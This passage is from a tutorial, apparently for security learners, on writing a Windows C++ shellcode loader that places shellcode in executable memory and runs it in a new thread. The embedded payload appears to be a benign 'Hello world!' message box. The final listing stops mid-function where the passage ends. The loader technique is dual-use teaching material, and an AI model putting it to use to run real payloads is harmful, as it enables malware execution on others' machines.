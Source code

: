 We will set default/NULL values for every argument, except the *lpStartAddress*.

```C++
// Execute code stored in memory in a separate thread
HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)mem_alloc, NULL, 0, NULL);
```

### Last details

Bingo! Our code should already be working :)

Well... We still need to fix two or three things. First of all, we should tell our program to wait for the thread to be terminated before exiting. Then, we need to close the handle to our thread and free the memory we allocated!

```C++
// Infinite loop until the program isn't closed
WaitForSingleObject(hThread, INFINITE);

// Properly handle closing and memory releasing
CloseHandle(hThread);
VirtualFree(mem_alloc, 0, MEM_RELEASE);
```

Perfect! Now, if you've followed all these steps, your code should look something like this:

```C++
#include <stdio.h>
#include <Windows.h>

int main(){
	unsigned char shellcode[] = 
		"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
		"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
		"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
		"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
		"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
		"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
		"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
		"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
		"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
		"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
		"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
		"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
		"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
		"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
		"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
		"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x3e\x48"
		"\x8d\x8d\x26\x01\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5"
		"\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
		"\x00\x3e\x4c\x8d\x85\x1b\x01\x00\x00\x48\x31\xc9\x41\xba"
		"\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2"
		"\x56\xff\xd5\x48\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64"
		"\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78\x00\x75"
		"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00";

	// Allocating, Committing and Reserving memory
	LPVOID mem_alloc = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);

	printf("Memory address: 0x%p\n", mem_alloc);

	// Write our shellcode in memory
	RtlCopyMemory(mem_alloc, shellcode, sizeof(shellcode));
	
	// Execute code stored in memory in a separate thread
	HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)mem_alloc, NULL, 0, NULL);
```